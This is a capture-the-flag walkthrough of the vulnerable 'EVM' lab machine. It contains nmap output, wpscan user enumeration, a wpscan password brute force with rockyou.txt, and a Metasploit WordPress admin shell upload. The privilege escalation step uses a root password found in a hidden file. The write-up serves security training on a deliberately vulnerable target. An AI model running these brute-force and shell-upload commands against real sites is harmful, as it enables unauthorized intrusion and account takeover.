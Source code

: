 ```yaml
---
layout: default
title : muzec - EVM Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/117515856-77b76f00-af65-11eb-9a1b-41753c58c175.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Fri May  7 14:10:03 2021 as: nmap -p- -sC -sV -oA nmap 172.16.139.171
Nmap scan report for 172.16.139.171
Host is up (0.00029s latency).
Not shown: 65528 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: SASL PIPELINING CAPA TOP AUTH-RESP-CODE RESP-CODES UIDL
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: OK IMAP4rev1 ENABLE have more capabilities LOGINDISABLEDA0001 LITERAL+ listed SASL-IR LOGIN-REFERRALS post-login IDLE ID Pre-login
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h20m08s, deviation: 2h18m34s, median: 3h00m07s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-05-07T17:10:26-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-07T21:10:26
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  7 14:10:26 2021 -- 1 IP address (1 host up) scanned in 22.48 seconds
```

First of all i check SMB but it was empty.

![image](https://user-images.githubusercontent.com/69868171/117516189-6b7fe180-af66-11eb-86f0-e79b05db37fa.png)

So i decided to burst some directory.

![image](https://user-images.githubusercontent.com/69868171/117516299-bb5ea880-af66-11eb-96df-65aca0e54805.png)

Ok it a wordpress website let use wpscan to enumerate it first thing first is to find all active users on it.

`wpscan --url http://172.16.139.171/wordpress/ --enumerate u`

![image](https://user-images.githubusercontent.com/69868171/117516605-93237980-af67-11eb-80c3-a126146e3a0f.png)

Ok just one user `c0rrupt3d_brain` let try to brute force it now.

`wpscan --url http://172.16.139.171/wordpress/ --usernames c0rrupt3d_brain --passwords /usr/share/wordlists/rockyou.txt`

![image](https://user-images.githubusercontent.com/69868171/117516980-aa169b80-af68-11eb-9406-14969a1b5f2b.png)

And we have the right credentials now let use the metasploit module for wordpress to upload our shell since the wordpress page is not loading.

`use exploit/unix/webapp/wp_admin_shell_upload`

![image](https://user-images.githubusercontent.com/69868171/117517129-02e63400-af69-11eb-9354-6c2b34c58d3f.png)

Now let hit the exploit.

![image](https://user-images.githubusercontent.com/69868171/117517195-35902c80-af69-11eb-9e7b-1b6e64a8ab81.png)

And we have shell now let drop out of the meterpreter shell with `shell` .

![image](https://user-images.githubusercontent.com/69868171/117517239-68d2bb80-af69-11eb-8ccc-c2a0c243b70e.png)

We also spawn a TTY shell and we are good to go.

### Privilege Escalation

![image](https://user-images.githubusercontent.com/69868171/117517302-a33c5880-af69-11eb-9f09-4e22d3f6dc34.png)

Going to the home with the folder of the user `root3r` with found aa root password for ssh lucky us and NOte:- it was hidden but using the command `ls -la` shows hidden file.

![image](https://user-images.githubusercontent.com/69868171/117517442-0d54fd80-af6a-11eb-8bcc-91f799abc4c8.png)

Now let log in with the root credentials.

![image](https://user-images.githubusercontent.com/69868171/117517561-59a03d80-af6a-11eb-8fe3-e28a10976dbd.png)

We are root and we have the proof.txt so we are done for today.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>

